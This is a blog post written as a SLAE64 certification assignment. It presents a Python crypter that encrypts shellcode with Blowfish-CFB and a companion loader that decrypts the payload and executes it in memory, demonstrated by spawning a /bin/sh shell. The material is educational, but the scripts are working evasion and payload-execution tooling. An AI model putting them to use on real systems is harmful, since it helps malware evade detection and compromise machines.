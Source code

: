 Assignment #7 - Crypters
========================

For this assignment I had to create a crypter, i.e. a program to encrypt a shellcode. This encrypted shellcode can then be decrypted and executed at runtime. Any encryption algorithm and programming language could be used. I chose to use [Blowfish][wikipedia_blowfish] in [Cipher Feedback mode][wikipedia_cfb] (CFB).

I could have implemented Blowfish myself, but I decided that was out of scope for this course. Instead I used [this implementation][github_blowfish]. To use it you just have to install it with `pip3 install --user blowfish`.

My crypter can be seen below.

    #!/usr/bin/env python3
    import sys
    import blowfish

    key = bytes(sys.argv[1], 'utf-8')
    shellcode = bytes.fromhex(sys.argv[2].replace('\\x', ''))

    iv = b'\x00\x00\x00\x00\x00\x00\x00\x00' #urandom(8)
    cipher = blowfish.Cipher(key)
    blocks = cipher.encrypt_cfb(shellcode, iv)

    output = []
    for block in blocks:
        for byte in block:
            output.append(byte)

    print()
    print(''.join(['\\x{:02x}'.format(b) for b in output]))
    print()
    print(','.join(['0x{:02x}'.format(b) for b in output]))

It expects two arguments. The first is the key (or password) with which the shellcode will be encrypted. The second is the shellcode to encrypt. As an example we can encrypt an `execve` stack shellcode:

    $ ./blowfish-encrypt.py pass '\x31\xc0\x50\x54\x5a\x48\xbe\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x54\x5f\x50\x57\x54\x5e\xb0\x3b\x0f\x05' | fold

    \x03\x89\xc1\xa0\xbf\xb6\xdb\x63\xa8\xa2\xb3\x21\x18\x0e\x2e\x42\xdc\x7a\x58\x12
    \x13\xe5\xb3\x7e\xed\x33

    0x03,0x89,0xc1,0xa0,0xbf,0xb6,0xdb,0x63,0xa8,0xa2,0xb3,0x21,0x18,0x0e,0x2e,0x42,
    0xdc,0x7a,0x58,0x12,0x13,0xe5,0xb3,0x7e,0xed,0x33

As a note, CFB expects an [initialisation vector][wikipedia_iv] (IV) which should be random. The IV guarantees that multiple ciphertexts can be generated for a given plaintext and key. The IV used to encrypt the plaintext must be known to decrypt it. The easiest way is to use a fixed IV, which I did here. But of course it's not the most secure. We're relying on the key alone here, which I think is enough for our purpose.

Decrypting and executing
------------------------

The script to decrypt and execute the shellcode can be seen below.

    #!/usr/bin/env python3
    import sys
    import blowfish
    import mmap
    import ctypes

    key = bytes(sys.argv[1], 'utf-8')
    enc_shellcode = bytes.fromhex(sys.argv[2].replace('\\x', ''))

    iv = b'\x00\x00\x00\x00\x00\x00\x00\x00' #urandom(8)
    cipher = blowfish.Cipher(key)
    blocks = cipher.decrypt_cfb(enc_shellcode, iv)

    shellcode = []
    for block in blocks:
        for byte in block:
            shellcode.append(byte)

    shellcode_bytes = bytes(shellcode)

    # execute shellcode
    exec_mem = mmap.mmap(-1, len(shellcode_bytes), prot = mmap.PROT_READ |
            mmap.PROT_WRITE | mmap.PROT_EXEC, flags = mmap.MAP_ANONYMOUS |
            mmap.MAP_PRIVATE)
    exec_mem.write(shellcode_bytes)

    ctypes_buffer = ctypes.c_int.from_buffer(exec_mem)
    func = ctypes.CFUNCTYPE(ctypes.c_int64)(ctypes.addressof(ctypes_buffer))
    func._avoid_gc_for_mmap = exec_mem

    func()

The first part decrypts and the second executes. The first argument to the script is the password and the second is the encrypted shellcode. As an example let's execute the payload we encrypted before:

    $ ./blowfish-execute.py pass '\x03\x89\xc1\xa0\xbf\xb6\xdb\x63\xa8\xa2\xb3\x21\x18\x0e\x2e\x42\xdc\x7a\x58\x12\x13\xe5\xb3\x7e\xed\x33'
    sh-5.0$ whoami
    goncalor

We can see it spawned a shell as expected.

That's all for this assignment. I hope you enjoyed it.


[wikipedia_blowfish]: https://en.wikipedia.org/wiki/Blowfish_(cipher)
[wikipedia_cfb]: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Feedback_(CFB)
[wikipedia_iv]: https://en.wikipedia.org/wiki/Initialization_vector
[github_blowfish]: https://github.com/jashandeep-sohi/python-blowfish

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7
